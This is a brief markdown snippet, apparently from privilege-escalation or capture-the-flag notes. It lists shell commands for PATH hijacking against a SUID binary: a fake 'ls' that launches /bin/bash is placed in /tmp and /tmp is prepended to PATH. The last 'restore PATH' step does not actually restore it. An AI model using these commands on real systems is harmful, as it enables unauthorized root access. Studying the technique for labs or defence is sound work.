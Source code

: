 ### Exploit binary that runs with SUID

1. Create a script with the same name in the tmp directory: `echo "/bin/bash" > ls`
2. Give it permission to execute: `chmod +x ls`
3. Prepend the tmp directory to the PATH variable: `export PATH=/tmp:$PATH`
4. When done you can return the PATH to normal `export PATH=[initial path]:$PATH`

